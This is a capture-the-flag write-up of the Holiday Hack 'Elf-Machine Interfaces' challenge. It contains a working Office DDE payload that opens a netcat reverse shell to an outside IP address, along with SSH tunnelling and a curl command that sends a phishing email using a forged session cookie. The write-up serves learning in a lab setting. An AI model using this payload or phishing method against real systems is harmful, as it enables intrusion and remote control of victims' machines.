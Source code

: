 ### Elf-Machine Interfaces

**Task:** Like any other complex SCADA systems, the North Pole uses Elf-Machine Interfaces (EMI) to monitor and control critical infrastructure assets. These systems serve many uses, including email access and web browsing. Gain access to the EMI server through the use of a phishing attack with your access to the EWA server. Retrieve The Great Book page from **C:\GreatBookPage7.pdf**. What does The Great Book page describe?

The challenge here required some backtracking to the mail server and seeing what other information we could extract. I started off applying the ssh forwarder as usually and also added in the login cookie that was explained in the mail server breach challenge

```bash
$ ssh -L 127.0.0.1:25:10.142.0.5:25 -L 127.0.0.1:80:10.142.0.5:80 -L 127.0.0.1:143:10.142.0.5:143 -L 127.0.0.1:2525:10.142.0.5:2525 -L 127.0.0.1:3000:10.142.0.5:3000 alabaster_snowball@l2s.northpolechristmastown.com
```

Reading over all the emails brought to light a few things:

* Alabaster is a Hypocrite and should not be working in Security.
* Alabaster mentions that he has `netcat` installed on his system and also mentions PowerShell.
* Tarpin McJingle Hauser emails `all@` saying she's going to be sending out a recipe file with the words `gingerbread`, `cookie` and `recipe` in the email. She also said it will be in a `.docx` file. Oddly specific...
* Alabaster says, and I quote: **"please send it to me in a docx file. Im currently working on my computer and would download that to my machine, open it, and click to all the prompts."**
* Finally there was a link to a png file at http://mail.northpolechristmastown.com/attachments/dde_exmaple_minty_candycane.png that can be seen below.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge06-dde-image.jpg" />

I did some research on DDE (Dynamic Data Exchange), and came across this resource that walked through the process of creating your own reverse shell exploit using DDE loaded into a `.docx` file.

I created a new `.docx` file and filled it with the following content

```bash
{DDEAUTO c:\\windows\\system32\\cmd "/k nc.exe 203.59.106.231 9001 -e cmd.exe"}
```

This DDE command when executing will open up a `command line shell` back to my server on port `9001`.

Next I logged into the mail system again, this time as `jessica.claus@northpolechristmastown.com` (just in case Alabaster is smart enough to notice an email from himself that he didn't send). I drafted up a new email to `alabaster.snowball@northpolechristmastown.com` with the following content and attached the file to the email with my DDE exploit.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge06-dde-send-email.jpg" />

I also came up with a handy little curl command to do this process for me once the word doc was uploaded.

```bash
curl -i -s -k -X  'POST'  \
 -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'  -H 'Accept: */*'  -H 'Accept-Language: en-US,en;q=0.5'  -H 'Referer: http://mail.northpolechristmastown.com/account.html'  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'  -H 'X-Requested-With: XMLHttpRequest'  -H 'Content-Length: 519'  -H 'Cookie: EWA={"name":"jessica.claus@northpolechristmastown.com","plaintext":"","ciphertext":"AAAAAAAAAAAAAAAAAAAAAA"}'  -H 'Connection: keep-alive'  -H ''  \
--data-binary $'from_email=jessica.claus%40northpolechristmastown.com&to_email=alabaster.snowball%40northpolechristmastown.com&subject_email=gingerbread+cookie+recipe&message_email=67696e676572627265616420636f6f6b6965207265636970650a41545441434845442046494c4520444f574e4c4f414420484552453a20687474703a2f2f6d61696c2e6e6f727468706f6c656368726973746d6173746f776e2e636f6d2f6174746163686d656e74732f4439464668354f694f70617972754d45316d35596d6e616338576736586c62566542586f5372556842796d457972414772545f5f436f6f6b69655265636970652e646f63780a20' \
'http://mail.northpolechristmastown.com:3000/api.js'
```